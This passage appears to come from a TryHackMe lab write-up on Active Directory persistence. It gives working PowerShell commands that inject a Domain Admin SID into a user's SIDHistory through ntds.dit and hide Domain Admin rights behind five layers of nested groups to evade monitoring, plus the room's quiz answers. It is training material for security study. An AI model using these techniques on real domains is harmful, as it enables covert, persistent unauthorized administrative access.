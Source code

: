 ```shell

Add-ADDBSidHistory -SamAccountName grace.clarke -SidHistory S-1-5-21-3885271727-2693558621-2658995185-512 -DatabasePath C:\Windows\NTDS\ntds.dit
#include SID to add to SID History

Start-Service -Name ntds
#start the service again

#we can now ssh into THMWRK1 with low-priv creds
#and verify our Domain Admin privs
#in powershell
Get-ADUser grace.clarke -Properties sidhistory
#updated SIDHistory

dir \\thmdc.za.tryhackme.loc\c$ 
#can be accessed
```

```markdown
1. What AD object attribute is normally used to specify SIDs from the object's previous domain to allow seamless migration to a new domain? - SIDHistory

2. What is the database file on the domain controller that stores all AD information? - ntds.dit

3. What is the PowerShell command to restart the ntds service after we injected our SID history values? - Start-Service -Name ntds
```

## Persistence through Group Membership

* Privileged groups such as Domain Admins or Enterprise Admins are not the best to use for persistence as they are monitored more closely; if we want to persist through Group Membership, we can choose other groups like:

  * IT Support group; this can be used to gain privileges like force changing user passwords.
  * Groups that provide local administrator rights.
  * Groups with indirect privileges such as ownership over GPOs.

* Group nesting feature is used to create a more organised structure in AD; however it can also reduce visibility of effective access.

* Persistence through group nesting:

```shell
#in powershell session as Administrator

New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "sv Net Group 1" -SamAccountName "sv_nestgroup1" -DisplayName "sv Nest Group 1" -GroupScope Global -GroupCategory Security
#creates new base group to be hidden in People -> IT OU

New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "sv Net Group 2" -SamAccountName "sv_nestgroup2" -DisplayName "sv Nest Group 2" -GroupScope Global -GroupCategory Security
#creates another group in People -> Sales OU

Add-ADGroupMember -Identity "sv_nestgroup2" -Members "sv_nestgroup1"
#and adds previous group as member

#we can create more subgroups in a similar way
#thus making deeper layers of nesting

#in the 5th layer, we have sv_nestgroup5
#this group is added to Domain Admins group
Add-ADGroupMember -Identity "Domain Admins" -Members "sv_nestgroup5"

Add-ADGroupMember -Identity "sv_nestgroup1" -Members "grace.clarke"
#adds low-priv user to first group
```